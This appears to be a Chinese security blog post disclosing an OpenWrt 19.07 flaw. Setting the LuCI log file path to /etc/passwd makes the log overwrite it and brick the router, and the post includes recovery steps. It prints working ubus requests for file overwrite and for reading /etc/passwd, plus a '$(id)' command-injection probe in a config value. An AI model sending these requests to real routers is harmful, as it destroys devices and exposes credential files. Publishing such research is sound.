OpenWrt 当前最新的版本为 19.07，研究发现最新版本及旧版就存在任意文件创建漏洞，但写入的文件内容不受控制。利用这一特性可造成拒绝服务，导致路由器“变砖”。即任意文件覆盖导致拒绝服务。
已报告给 OpenWRT，但官方选择忽略。
OpenWrt x86 VMware 安装 1. 下载镜像文件 下载最新 OpenWrt 19.07 x86 镜像并解压。
1 2 wget https://downloads.openwrt.org/releases/19.07.0/targets/x86/generic/openwrt-19.07.0-x86-generic-combined-ext4.img.gz gunzip openwrt-19.07.0-x86-generic-combined-ext4.img.gz
2. 转换镜像文件格式 使用 qemu 将 img 镜像文件转换为 VMare Worksation 所使用的 vmdk 格式。
1 2 sudo apt-get install qemu-utils -y sudo qemu-img convert -f raw openwrt-19.07.0-x86-generic-combined-ext4.img -O vmdk openwrt-19.07.0-x86-generic-combined-ext4.vmdk
3. 新建虚拟机 新建虚拟机和平常 “自定义创建 Linux 虚拟机” 相似（即使用现有虚拟磁盘创建 Linux 虚拟机），但需要注意四点：
（1）选择稍后安装操作系统

（2）磁盘类型选 IED

（3）使用现有虚拟磁盘

然后选择前面转换的 vmdk 文件。

4.配置网络 新建好虚拟机后，还需要配置网络，添加一张网卡，否则无法正常获取 IP。切记在首次打开虚拟机需要在配置好双网卡之后。
在 “设置” 中添加网络适配器，按照实际需要选择 “桥接” 或 “NAT”。

最后一步，在 /etc/config/network 设置 IP，然后我们就可以使用 WEB 进行访问，或使用 SSH 连接。使用ifconfig 获取当前自动分配 eth1 的 IP 地址，并把这个 IP 地址放在下图标注的位置中。

然后，重启网络。

5. 验证安装 WEB后台访问成功，设置好密码后，可以通过 SSH 访问。

OpenWrt 任意文件创建 OpenWrt 是三大主流路由器操作系统之一，市面上存在大量的基于 OpenWrt 开发的路由器，如极路由。OpenWrt 当前最新的版本为 19.07，研究发现最新版本及旧版就存在任意文件创建漏洞，但写入的文件内容不受控制。利用这一特性可造成拒绝服务，导致路由器“变砖”。即任意文件覆盖导致拒绝服务。
已报告 给 OpenWRT，但官方选择忽略。
曾遇到利用 OpenWRT 开发的产品，去掉了 System -> Startup -> Local Startup页面（不能执行任意命令），但保留了System -> System -> Logging。如使用本文提到的方法，将导致该设备“变砖”，给用户带来不可挽回的损失。
技术分析 LuCI 是OpenWrt 的 WEB 后台管理界面，在 System -> logging 页面可以设置系统日志的存储路径、日志文件大小、日志输出的等级等。日志功能采用 logread 实现，logread 用于读取系统日志，以下是 logread 的使用帮助。
logread 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 root@OpenWrt:~ logread: option requires an argument: h Usage: logread [options] Options: -s <path> Path to ubus socket -l <count> Got only the last 'count' messages -e <pattern> Filter messages with a regexp -r <server> <port> Stream message to a server -F <file> Log file -S <bytes> Log size -p <file> PID file -h <hostname> Add hostname to the message -P <prefix> Prefix custom text to streamed messages -f Follow log messages -u Use UDP as the protocol -t Add an extra timestamp -0 Use \0 instead of \n as trailer when using TCP
1. WEB 端配置系统日志参数，传递到后台 现在我们来分析整个流程，首先设置日志文件大小为 1 KB，保存在 /etc/passwd 中，然后点击 “Save & Apply”。

设置日志参数的 HTTP 请求如下，OpenWrt 通过调用 uci 的 set 功能对配置文件/etc/config/system 进行设置，把 log_size 设置为 1，把log_file 设置为 /etc/passwd。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 POST http://192.168.7.143/cgi-bin/luci/admin/ubus?1578741218608 HTTP/1.1 Host : 192.168.7.143Connection : keep-aliveContent-Length : 192User-Agent : Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117 Safari/537.36Content-Type : application/jsonAccept : */*Origin : http://192.168.7.143Referer : http://192.168.7.143/cgi-bin/luci/admin/system/systemAccept-Encoding : gzip, deflateAccept-Language : zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7Cookie : sysauth=b1f9ac240ca8135e2c41a12cca5c5cb6[{"jsonrpc":"2.0","id":37,"method":"call","params":["b1f9ac240ca8135e2c41a12cca5c5cb6","uci","set",{"config":"system","section":"cfg01e48a","values":{"log_size":"1","log_file":"/etc/passwd"}}]}]
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 root@OpenWrt:~ config system trueoption hostname 'OpenWrt' trueoption ttylogin '0' trueoption urandom_seed '0' trueoption zonename 'UTC' trueoption log_size '1' trueoption cronloglevel '5' trueoption log_proto 'udp' trueoption log_file '/etc/passwd' trueoption conloglevel '8' config timeserver 'ntp' truelist server '0.openwrt.pool.ntp.org' truelist server '1.openwrt.pool.ntp.org' truelist server '2.openwrt.pool.ntp.org' truelist server '3.openwrt.pool.ntp.org'
2. 后台处理流程 /etc/init.d/log从 /etc/congfig/system读取出参数,并调用 logread实现日志获取和保存。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 PROG=/sbin/logread start_service_file() { PIDCOUNT="$(( ${PIDCOUNT} + 1) )" local pid_file="/var/run/logread.${PIDCOUNT} .pid" [ "$2 " = 0 ] || { echo "validation failed" return 1 } [ -z "${log_file} " ] && return mkdir -p "$(dirname "${log_file} " ) " procd_open_instance procd_set_param command "$PROG " -f -F "$log_file " -p "$pid_file " [ -n "${log_size} " ] && procd_append_param command -S "$log_size " procd_close_instance } start_service() { config_load system config_foreach validate_log_daemon system start_service_daemon config_foreach validate_log_section system start_service_file config_foreach validate_log_section system start_service_remote }
首先使用config_loaduci_load
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 CONFIG_APPEND= uci_load truelocal PACKAGE="$1 " truelocal DATA truelocal RET truelocal VAR true_C=0 trueif [ -z "$CONFIG_APPEND " ]; then truetruefor VAR in $CONFIG_LIST_STATE ; do truetruetrueexport ${NO_EXPORT:+-n} CONFIG_${VAR} = truetruetrueexport ${NO_EXPORT:+-n} CONFIG_${VAR} _LENGTH= truetruedone truetrueexport ${NO_EXPORT:+-n} CONFIG_LIST_STATE= truetrueexport ${NO_EXPORT:+-n} CONFIG_SECTIONS= truetrueexport ${NO_EXPORT:+-n} CONFIG_NUM_SECTIONS=0 truetrueexport ${NO_EXPORT:+-n} CONFIG_SECTION= truefi trueDATA="$(/sbin/uci ${UCI_CONFIG_DIR:+-c $UCI_CONFIG_DIR} ${LOAD_STATE:+-P /var/state} -S -n export "$PACKAGE " 2>/dev/null) " trueRET="$?" true[ "$RET " != 0 -o -z "$DATA " ] || eval "$DATA " trueunset DATA true${CONFIG_SECTION:+config_cb return "$RET" }
然后 start_service_fileprocd_set_param command "$PROG" -f -F "$log_file" -p "$pid_file"从环境变量中拿到参数后，执行 logread 命令，实现日志获取和保存。
1 2 root@OpenWrt:~ 5107 root 948 S /sbin/logread -f -F /etc/passwd -p /var/run/logread.1.pid -S 1
3. 文件被覆盖，OpenWrt拒绝服务 最初日志会附加在 /etc/passwd中，刚开始不会影响系统的正常运行，但当日志的大小超过/etc/config/system中的log_size的值时，之前的内容会被覆盖。
等待一段时间（延迟触发），或直接重启（立即触发）后，可以看到 passwd 被覆盖，超出 1K 之前的日志被放在了 passwd.old 中。OpenWrt 拒绝服务，WEB 后台、SSH 无法正常使用。如果这是一个真实的路由器，现在它已经“变砖”了。

POC OpenWrt 版本：OpenWrt 19.07.0
测试平台：x86 VMware
1.设置日志大小和路径 修改系统日志的大小和存储：在 logging 页面把 “System log buffer size” 设置 1 KB，把 “Write system log to file” 设置为 /etc/passwd/。
2. 生成 1K 以上的日志，覆盖 /etc/passwd 为了产生日志，最快的方法是重启OpenWrt。或等待一段时间，等待系统自动生成日志（延时触发）。

3.OpenWrt 拒绝服务效果 1) Web 管理页面绝服务。

2）通过”串口”进入路由器，发现 /etc/passwd 被重写，网络也断开了。

3) 由于 passwd 文件被覆盖，SSH 无法认证用户，故无法使用。如果是真实的路由器，这个路由器就变砖了。

4.演示视频
救砖 进测试了 X86 平台，其他平台可按照实际调整。
通过串口进入 OpenWrt，默认无身份验证，能进入 shell。只需要两步就能恢复。
（1）使用 passwd- 还原 passwd
（2）将 /etc/config/system 中的 log_file 置空，或改为其他无关的路径。
如果存在授权认证，通过串口不能进入交互式 Shell，就只能通过 uboot 重新刷写了。
有意思的内容 系统文件目录列举 1 2 3 4 5 6 7 8 9 10 11 12 POST /cgi-bin/luci/admin/ubus HTTP/1.1 Host : 192.168.7.143User-Agent : Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:73.0) Gecko/20100101 Firefox/73.0Accept : */*Accept-Language : zh-CNReferer : http://192.168.7.143/cgi-bin/luci/Content-Type : application/jsonContent-Length : 119Origin : http://192.168.7.143Connection : close[{"jsonrpc":"2.0","id":2,"method":"call","params":["9e3e02d9aad24fbfba163537d17d9b83","file","list",{"path":"/www/"}]}]
1 2 3 4 5 6 7 8 9 10 11 HTTP/1.1 200 OKConnection : closeContent-Type : application/jsonCache-Control : no-cacheExpires : 0X-Frame-Options : SAMEORIGINX-XSS-Protection : 1; mode=blockX-Content-Type-Options : nosniffContent-Length : 501[{"id":2,"jsonrpc":"2.0","result":[0,{"entries":[{"type":"directory","inode":1179,"ctime":1575129153,"atime":1575129153,"uid":0,"mtime":1575129153,"gid":0,"mode":16877,"name":"cgi-bin","size":4096},{"type":"file","inode":1184,"ctime":1575129153,"atime":1575129153,"uid":0,"mtime":1575129153,"gid":0,"mode":33188,"name":"index.html","size":524},{"type":"directory","inode":1185,"ctime":1575129153,"atime":1575129153,"uid":0,"mtime":1575129153,"gid":0,"mode":16877,"name":"luci-static","size":4096}]}]}]
任意文件覆盖 1 2 3 4 5 6 7 8 9 10 11 12 13 14 POST http://192.168.7.143/cgi-bin/luci/admin/ubus?1578741218608 HTTP/1.1 Host : 192.168.7.143Connection : keep-aliveContent-Length : 192User-Agent : Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117 Safari/537.36Content-Type : application/jsonAccept : */*Origin : http://192.168.7.143Referer : http://192.168.7.143/cgi-bin/luci/admin/system/systemAccept-Encoding : gzip, deflateAccept-Language : zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7Cookie : sysauth=b1f9ac240ca8135e2c41a12cca5c5cb6[{"jsonrpc":"2.0","id":37,"method":"call","params":["b1f9ac240ca8135e2c41a12cca5c5cb6","uci","set",{"config":"system","section":"cfg01e48a","values":{"log_size":"1","log_file":"/etc/passwd"}}]}]
1 2 3 4 5 6 7 8 9 10 11 HTTP/1.1 200 OKConnection : closeTransfer-Encoding : chunkedContent-Type : application/jsonCache-Control : no-cacheExpires : 0X-Frame-Options : SAMEORIGINX-XSS-Protection : 1; mode=blockX-Content-Type-Options : nosniff[{"id":40,"jsonrpc":"2.0","result":[0]}]
任意文件读取 /etc/shadow（文件权限400） 可能不是以root去读的，权限不够无法读取 。
1 2 3 4 5 6 7 8 9 10 11 12 13 POST /cgi-bin/luci/admin/ubus?1578715003061 HTTP/1.1 Host : 192.168.7.143User-Agent : Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:73.0) Gecko/20100101 Firefox/73.0Accept : */*Accept-Language : zh-CNReferer : http://192.168.7.143/cgi-bin/luci/admin/system/flashContent-Type : application/jsonContent-Length : 125Origin : http://192.168.7.143Connection : closeCookie : sysauth=9e3e02d9aad24fbfba163537d17d9b83[{"jsonrpc":"2.0","id":5,"method":"call","params":["9e3e02d9aad24fbfba163537d17d9b83","file","read",{"path":"/etc/passwd"}]}]
1 2 3 4 5 6 7 8 9 10 11 HTTP/1.1 200 OKConnection : closeContent-Type : application/jsonCache-Control : no-cacheExpires : 0X-Frame-Options : SAMEORIGINX-XSS-Protection : 1; mode=blockX-Content-Type-Options : nosniffContent-Length : 322[{"id":5,"jsonrpc":"2.0","result":[0,{"data":"root:x:0:0:root:\/root:\/bin\/ash\ndaemon:*:1:1:daemon:\/var:\/bin\/false\nftp:*:55:55:ftp:\/home\/ftp:\/bin\/false\nnetwork:*:101:101:network:\/var:\/bin\/false\nnobody:*:65534:65534:nobody:\/var:\/bin\/false\ndnsmasq:x:453:453:dnsmasq:\/var\/run\/dnsmasq:\/bin\/false\n"}]}]
奇怪 eavl 在分析中，发现了一段有趣的代码。
1 2 3 4 5 DATA="$(/sbin/uci ${UCI_CONFIG_DIR:+-c $UCI_CONFIG_DIR} ${LOAD_STATE:+-P /var/state #DATA="$(uci -P /var/state -S -n export system 2>/dev/null) " RET="$?" [ "$RET " != 0 -o -z "$DATA " ] || eval "$DATA " unset DATA
以/etc/system/log中设置日志为例，config_load函数会调用到uci_loaduci_load。$DATA 的值是/etc/config/system的文件内容。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 root@OpenWrt:/etc/init.d config system trueoption hostname 'OpenWrt' trueoption ttylogin '0' trueoption urandom_seed '0' trueoption zonename 'UTC' trueoption log_size '64' trueoption cronloglevel '5' trueoption log_proto 'udp' trueoption log_file '/etc/init.d/pwned$(id)' trueoption conloglevel '7' config timeserver 'ntp' truelist server '0.openwrt.pool.ntp.org' truelist server '1.openwrt.pool.ntp.org' truelist server '2.openwrt.pool.ntp.org' truelist server '3.openwrt.pool.ntp.org'
eval “$DATA” 能在当前环境能够运行，且会影响到环境变量。但是把这段代码单独拿出来就会报错。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 root@OpenWrt:/etc/init.d 2>/dev/null)" root@OpenWrt:/etc/init.d# eval " $DATA " -ash: eval: package: not found -ash: eval: config: not found -ash: eval: option: not found -ash: eval: option: not found -ash: eval: option: not found -ash: eval: option: not found -ash: eval: option: not found -ash: eval: option: not found -ash: eval: option: not found -ash: eval: option: not found -ash: eval: option: not found -ash: eval: config: not found -ash: eval: list: not found -ash: eval: list: not found -ash: eval: list: not found -ash: eval: list: not found
自己琢磨了很久，也查了不少资料。最后发现 eval 仍然是按行执行的，只是每一行的第一段是函数名，如config 函数。这些函数只有在特定环境下，再能被调用，否则无法识别。
系统函数 config_load /lib/functions.sh
1 2 3 4 config_load() { [ -n "$IPKG_INSTROOT" ] && return 0 uci_load "$@" }
/lib/config/uci.sh
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 uci_load local PACKAGE="$1 " local DATA local RET local VAR _C=0 if [ -z "$CONFIG_APPEND " ]; then for VAR in $CONFIG_LIST_STATE ; do export ${NO_EXPORT:+-n} CONFIG_${VAR} = export ${NO_EXPORT:+-n} CONFIG_${VAR} _LENGTH= done export ${NO_EXPORT:+-n} CONFIG_LIST_STATE= export ${NO_EXPORT:+-n} CONFIG_SECTIONS= export ${NO_EXPORT:+-n} CONFIG_NUM_SECTIONS=0 export ${NO_EXPORT:+-n} CONFIG_SECTION= fi DATA="$(/sbin/uci ${UCI_CONFIG_DIR:+-c $UCI_CONFIG_DIR} ${LOAD_STATE:+ RET="$?" [ "$RET " != 0 -o -z "$DATA " ] || eval "$DATA " unset DATA ${CONFIG_SECTION:+config_cb} return "$RET " }
config_foreach /lib/functions.sh
1 2 3 4 5 6 7 8 9 10 11 12 13 14 config_foreach truelocal ___function="$1 " true[ "$# " -ge 1 ] && shift truelocal ___type="$1 " true[ "$# " -ge 1 ] && shift truelocal section cfgtype true[ -z "$CONFIG_SECTIONS " ] && return 0 truefor section in ${CONFIG_SECTIONS} ; do truetrueconfig_get cfgtype "$section " TYPE truetrue[ -n "$___type " ] && [ "x$cfgtype " != "x$___type " ] && continue truetrueeval "$___function \"\$section\" \"\$@\"" truedone }
config_get
1 2 3 4 5 6 7 8 config_get truecase "$3 " in truetrue"" ) eval echo "\"\${CONFIG_${1} _${2} :-\${4}}\"" ;; truetrue*) eval export ${NO_EXPORT:+-n} -- "${1} =\${CONFIG_${2} _${3} :-\${4}}" ;; trueesac }
参考